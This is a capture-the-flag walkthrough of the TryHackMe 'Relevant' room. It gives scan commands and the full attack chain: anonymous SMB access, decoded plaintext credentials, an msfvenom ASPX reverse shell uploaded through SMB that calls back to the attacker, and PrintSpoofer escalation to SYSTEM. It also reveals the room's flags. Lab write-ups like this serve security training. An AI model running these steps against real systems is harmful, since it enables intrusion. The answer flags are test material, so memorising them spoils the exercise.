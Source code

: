 # Relevant
Difficulty: Medium
https://tryhackme.com/room/relevant

export target=10.10.63.65

## Obtain User Flag
vulners nmap scan:
    80/tcp   open  http
    135/tcp  open  msrpc
    139/tcp  open  netbios-ssn
    445/tcp  open  microsoft-ds
    3389/tcp open  ms-wbt-server
    
Second nmap scan:
`nmap -sC -sV -vv -A $target --script=vulners -Pn -oN scans/nmap-full`
    80/tcp   open  http          syn-ack Microsoft IIS httpd 10.0
    |_http-server-header: Microsoft-IIS/10.0
    135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
    139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds  syn-ack Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
    3389/tcp open  ms-wbt-server syn-ack Microsoft Terminal Services
    Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
    
All ports nmap scan:
`nmap -p- --min-rate 10000 -v $target -oN scans/nmap-all-ports`

80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49663/tcp open  unknown         - IS A WEB SERVER
49667/tcp open  unknown
49669/tcp open  unknown

Gobuster Directory Bruteforce:
`gobuster dir -u http://$target:80 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt | tee scans/gobuster-dirs`
- /*checkout*

Second Web Server:
`gobuster dir -u http://$target:49663 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt | tee scans/gobuster-dirs`

Notes:

SMB Service on port 445
`smbclient -L $target`
Found SMB Share: nt4wrksv

Logged in anonymously using smbclient to check the share
`smblcient \\\\<ip>\\nt4wrksv`

A file called "passwords.txt" is located in the share so I downloaded it and viewed it on my local machine.
I recognised this as base64 and passed it to cyberchef and decoded from base64 to get the following output:

```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

We now have 2 usernames "bob" & "bill" along with their respective passwords

I used the above with impacket-psexec to enumerate the SMB shares:
`impacket-psexec bob:'!P@$$W0rD!123'@<ip>`
`impacket-psexec bill:'Juw4nnaM4n420696969!$$$'@<ip>`

There's nothing I can do with the bob user that I can't do with the anonymous user and the bill user is a fake user.

I decide to check the other ports on the server manually:
- Port: 49663 contains a webserver with the same page as port 80

I run gobuster against the directory and don't find anything new.

Out of curiosity I test the below URLS:
http://<ip>/nt4wrksv/passwords.txt: Nothing
http://<ip>:49663/nt4wrksv/passwords.txt: Same as smb share!

Files uploaded as the guest on the SMB share are accessible to the web server, viewable even.
Time to check for a file upload vulnerability.

I did some research on what potential there is for a reverse shell on ISS and found that it uses ab ASPX shell.
So I used msfvenom to create this shell.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<local ip> LPORT=4444 -f aspx -o revshell.aspx`
I then uploaded this to the SMB share and started a pwncat listener

`pwncat --listen 4444` & navigated to http://<ip>:49663/nt4wrksv/revshell.aspx to gain a reverse shell on powershell.

I navigated to a known user directory 
`cd C:\Users\Bob\` & searched for files finding user.txt on the user's desktop
`more Desktop\user.txt` - contains flag THM{fdk4ka34vk346ksxfr21tg789ktf45}

Tried to access C:\Users\Administrator however was given access denied.

I check the privs on the cirrent user using `whoami /priv`
```
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

After a bit of searching on google I found a hacktricks post on exploiting SeImpersonatePrivilege using https://github.com/itm4n/PrintSpoofer.

I downloaded the .exe and uploaded it to the SMB share then attempted to execute the executable.

`C:\inetpub\wwwroot\nt4wrksv\PrintSpoofer64.exe -i -c cmd.exe`
-i =  Interactive shell
-c cmd.exe = execute cmd.exe

executing gives me system privileges checked using `whoami` for the output nt authority\system

I was then able to access the Administrator account's files and found the root.txt on it's desktop: 

THM{1fk5kf469devly1gl320zafgl345pv}

## Obtain Root Flag

